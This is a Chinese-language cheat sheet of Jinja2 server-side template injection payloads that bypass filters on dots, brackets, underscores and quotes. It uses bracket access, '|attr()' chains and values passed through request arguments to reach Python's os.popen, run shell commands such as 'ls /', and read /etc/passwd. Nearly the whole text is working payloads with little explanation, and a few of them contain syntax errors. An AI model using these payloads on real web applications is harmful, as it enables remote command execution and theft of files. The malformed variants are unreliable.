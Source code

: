### 利用中括号[ ]绕过

如下示例：

```php
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}

等同于：

{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

## 组合绕过

### . + []

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

### __ +.+[]

原payload

```php
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

用 `__getitem__()`来绕过

由于还过滤了下划线 `__`，我们可以用request对象绕过，但是还过滤了中括号 `[]`，所以我们要时绕过 `__`和 `[`，就用到了我们的`|attr()`

最后

```php
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

### '+"

```php
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```

### _+'+"

```php
{{''[request.args.class][request.args.mro][2]request.args.subclasses.read() }}&class=_class__&mro=_mro__&subclasses=__subclasses__
```
